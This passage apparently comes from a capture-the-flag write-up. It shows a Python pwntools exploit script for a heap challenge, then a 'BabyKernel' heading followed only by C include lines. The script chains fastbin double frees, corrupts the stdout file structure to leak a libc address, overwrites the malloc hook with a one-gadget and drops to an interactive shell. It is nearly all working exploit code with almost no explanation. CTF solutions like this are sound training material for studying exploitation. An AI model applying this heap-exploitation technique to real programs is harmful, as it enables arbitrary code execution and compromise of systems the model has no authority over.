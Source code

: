 ```pyhton=
add("a",0x60,p16(val))
remove(5)
remove(4)
remove(5)
add("a",0x48,p64(0)+p64(0x602060)+p64(0x602058)+p64(0)+p64(0)*5)
remove(2)

add("a",0x60,"\x00")
add("a",0x60,"a")
add("a",0x60,"a")
add("a",0x60,"a")

add("a",0x48,p64(0)+p64(0x602060)+p64(0x602058)+p64(0)+p64(0)*5)
remove(2)

add("a",0x60,"\x00"*0x33+p64(0xfbad1800)+"\x00"*0x19)
r.recvuntil(":")
data = r.recvuntil("=")
libc = u64(data[8*8:9*8])-0x3c5600
print hex(libc)

add("a",0x48,p64(0)+p64(0x602060)+p64(0x602058)+p64(0)+p64(0)*5)
remove(2)
add("a",0x60,"a")
add("a",0x60,"a")

remove(3)
remove(4)
remove(3)
add("a",0x60,p64(libc+0x3c4aed))

add("a",0x48,p64(0)+p64(0x602060)+p64(0x602058)+p64(0)+p64(0)*5)
remove(2)
add("a",0x60,"a")
add("a",0x60,"a")
add("a",0x60,"a"*0x13+p64(libc+0xf02a4))
remove(0)
remove(0)


r.interactive()

```


### BabyKernel

```c=
#define _GNU_SOURCE
#include <sys/types.h>
#include <stdio.h>
#include <pthread.h>
#include <errno.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <signal.h>
#include <poll.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <poll.h>
#include <stdint.h>
```